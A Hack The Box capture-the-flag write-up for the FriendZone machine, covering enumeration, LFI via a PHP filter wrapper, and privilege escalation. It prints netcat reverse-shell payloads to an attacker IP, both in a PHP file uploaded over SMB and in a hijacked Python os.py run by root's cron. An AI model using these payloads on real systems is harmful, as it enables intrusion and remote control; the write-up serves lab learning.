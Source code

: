 ```yaml
---
title: "FriendZone — Hack The Box [Write-up]"
author: 0x3ashry
description: "Writeup for FriendZone Hackthebox Machine"
date: 2022-05-06 19:00:00 +0200
categories: [HackTheBox]
tags: [HTB, Linux]
---
```



## Introduction

![](/img/HTB/FriendZone/FriendZone.png)

#### Used Tools:
- nmap
- dig
- smbmap
- smbclient
- linPeas
- pspy


## 1. SCANNING & ENUMERATION

I will start with nmap and the -A parameter to enable OS detection, version detection, script scanning, and traceroute and append the output to tee command which save the in a file named “nmap” and also show the output on the screen.

![](/img/HTB/FriendZone/img (1).png)

Nmap is done with open ports:
21 --> FTP
22 --> SSH
53 --> DNS
80 --> HTTP
139 --> SMB
443 --> HTTPS
445 --> SMB

Tried anonymous login with FTP but unfortunately didn't work:

![](/img/HTB/FriendZone/img (2).png)

Let's Jumb to the webserver... 

![](/img/HTB/FriendZone/img (3).png)

Just a static web page, I tried directory bruteforcing it but didn't reach anything...
Note: There is a domain name down there *friendzoneportal.red*

We know there is Port **53** open which is domain may be we can do a zone transfer for that domain. I added friedzone.red and friendzoneportal.red in /etc/hosts

```bash
dig axfr @10.10.10.123 friendzone.red
```

![](/img/HTB/FriendZone/img (4).png)

Successfully found 3 new subdomains, Added them to my /etc/hosts

I tried to access **administrator1.friendzone.red** but found a login form with username and password

![](/img/HTB/FriendZone/img (5).png)

Tried SQLinjection but didn't succeed, So I checked the other two subdomains

**Upload.friendzone.red** --> Have an upload button and after uploading an image nothing interested happen
**hr.friendzone.red** --> Not Found


Let's check **SMB** Service to see if there is any file available

```bash
smbmap -H 10.10.10.123 -R
```

![](/img/HTB/FriendZone/img (6).png)

Found there is a file called **creds.txt** in general which have a read access


## 2. EXPLOITATION:


Let's try read general/creds.txt

```bash
smbclient -U "" //10.10.10.123/general
```

![](/img/HTB/FriendZone/img (7).png)

Got admin credentials, Let's try them in `administrator1.friendzone.red`

![](/img/HTB/FriendZone/img (8).png)

Logged in Successfully to page contain a message to visit **/dashboard**

![](/img/HTB/FriendZone/img (9).png)

Visiting /dashboard found a page that appears tp be dealing with some sort of images and have a missing parameters due to begginer development and saying to add the missing parameters

`image_id=a.jpg&pagename=timestamp`


![](/img/HTB/FriendZone/img (10).png)

Adding the missing parameters, The Image successfully appeared with something called timestamp displayed at the end

![](/img/HTB/FriendZone/img (11).png)

Refreshing the page a lot of times the timestamp kept changing which indicates that it must be a php page that has the .php added automatically, So I tried to view it using LFI Wrappers...

Let start with "PHP wrapper" to bypass LFI functionality.

`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=timestamp`

We got a base64 string of the .php page content

![](/img/HTB/FriendZone/img (12).png)

Its Working...

The `Development` share, we saw from `smbmap` has **writable permission** by the guest so why dont we upload a reverse shell there and try to access from this page. 

Write this exploit to a file named shell.php:

```php
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.10 4444 >/tmp/f');
?>
```

Then reopen the smbclient but now in the development directory and upload the shell

```bash
smbclient -U "" //10.10.10.123/development
put shell.php
```

![](/img/HTB/FriendZone/img (13).png)

Create a listener on my local machine:

```bash
nc -nlvp 4444
```

We know that the smb files are located under the `/etc` from our previous enumeration, So we will access our shell which is under `/etc/Development/shell` without .php because it is automatically added

![](/img/HTB/FriendZone/img (14).png)

BOOOOOOOOOOOOOOOOOOOOOOOOOOOM ! We successfully gained a shell for `www-data` user and the user flag is located at `/home/friend/user.txt`

![](/img/HTB/FriendZone/img (15).png)


## 3. PRIVILEGE ESCALATION:

In the /var/www there is a file called mysql_data.conf that has credentials of user `friend`, So we used it to upgrade from `www-data` to `friend`

![](/img/HTB/FriendZone/img (16).png)

I Also used these creds to obtain an `ssh` access with them

Then I ran *linPeas* script but it didn't show any thing I can use so I headed to see the `pspy` which monitor linux processes without root permissions.

But firstly I must upload it to the machine, and we all knew that /etc/development is writable so I will put the script there.

At my local machine:

```bash
kali@kali python3 -m http.server 8080
````

At friendZone:

```bash
wget http://10.10.16.10:8080/pspy64
```

![](/img/HTB/FriendZone/img (17).png)

After sometime this appeared, root runs `reporter.py` every minute

![](/img/HTB/FriendZone/img (18).png)

The script doesn't do anything except it runs the `os` script in the import line

![](/img/HTB/FriendZone/img (19).png)

From my previous enumeration in linPeas I found that `/usr/lib/python2.7/os.py` is writable. So what if we put a reverse shell in this library and when the reporter.py is reruned by root it will execute the shell with root privillages. Let's Try it...

Firstly we will put reverse shell in os.py

```python
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.10 8888 >/tmp/f")
```

![](/img/HTB/FriendZone/img (20).png)

Then we will save and open a listener in a new tab and wait a while for a connection...

![](/img/HTB/FriendZone/img (21).png)

BOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOM !!!! Now we are root :D

Thank you so much for reading and I hope you learned a lot as I did ❤

#### ***0x3ashry***